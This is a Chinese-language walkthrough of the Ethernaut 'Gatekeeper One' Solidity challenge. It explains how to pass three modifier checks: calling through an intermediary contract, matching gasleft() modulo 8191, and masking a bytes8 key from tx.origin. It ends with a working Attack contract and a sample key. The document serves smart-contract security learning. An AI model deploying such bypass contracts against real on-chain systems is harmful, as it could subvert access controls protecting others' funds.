

通过守门人，注册为参赛者，才能通过这一关。

复习 Telephone 和 Token。

也就是tx和msg的属性，以及数据下溢。

额外还有一个 `gasleft()`函数，可以返回剩余gas数量。

<!--more-->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), 
        			"GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), 
        			"GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), 
        			"GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

gateOne：转发请求即可；

gateTwo：要设置gasleft。可以设置调用合约的初始gas为8191。


gateThree：

- 条件1：

    这条条件要求 gateKey 转换成 uint64 后的低 32 位和低 16 位相等。也就是说 gateKey 的高 16~31 位必须是 0。

- 条件2：

    gateKey 的高 32 位必须是非零的。

- 条件3：

    tx.origin的低16位就是_gateKey的低16位。

所以我的就是：

```
0x0000000100007F7B
```


这关重点是gas，可以在下图位置看到每个指令消耗的gas，发现执行完GAS消耗了256个gas。




```solidity
contract Attack {
    address target;

    constructor(address _target) {
        target = _target;
    }

    function hack(uint256 gas) external {    
        uint64 uintKey = uint64(uint160(address(msg.sender)));    
        bytes8 key = bytes8(uintKey) & 0xFFFFFFFF0000FFFF;    
        (bool sent,) = address(target).call{gas: gas}(abi.encodeWithSignature("enter(bytes8)", key));    
        require(sent, "Transaction failed");
    }
}
```

